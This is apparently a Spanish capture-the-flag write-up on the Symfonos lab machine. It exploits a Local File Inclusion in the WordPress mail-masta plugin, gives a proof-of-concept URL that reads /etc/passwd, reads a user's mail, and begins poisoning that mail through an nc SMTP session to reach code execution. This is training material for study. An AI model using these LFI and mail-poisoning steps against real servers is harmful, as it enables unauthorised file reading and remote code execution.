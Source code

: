 Vemos que existen, vamos a ver los del Local FIle Inclusion, si hacemos `searchsploit -x php/webapps/40290.txt` nos mostrará el txt, si nos vamos al final tenemos:

```
Typical proof-of-concept would be to load passwd file:


http://server/wp-content/plugins/mail-masta/inc/campaign/count_of_send.php?pl=/etc/passwd
```

Al parecer **count_of_send.php** tiene un LFI en el parámetro **pl**, vamos a ver si esto se acontece:

![](/imagenes/Symfonos/3.png)

Tenemos el LFI, esto es interesante porque hay un servicio que aún no hemos auditado, el **smtp**, normalmente los servicios de correo tiene un path específico para el usuario, sabemos que existe usuario **helios**, vamos a intentar ver si podemos leer sus correos:

![](/imagenes/Symfonos/4.png)

Podemos ver sus mail, y el contenido se ve en la página de wordpress, esto es muy interesante, porque si somos capaces de enviar un correo a **helios** con instrucciones **php** maliciosas, el servidor va a interpretar dicho código, por lo tanto, podríamos acontecer un **RCE**, vamos a enviar un mail:

```
nc 172.26.75.241 25

220 symfonos.localdomain ESMTP Postfix (Debian/GNU)
```
Debemos definir quién envía el correo, para quien se envía y la data, vamos a probar:

```
nc 172.26.75.241 25

220 symfonos.localdomain ESMTP Postfix (Debian/GNU)
MAIL FROM: grafis
250 2.1.0 Ok
RCPT TO: helios
250 2.1.5 Ok
data
354 End data with <CR><LF>.<CR><LF>
Probando

.
250 2.0.0 Ok: queued as 4F7C4406D7
```

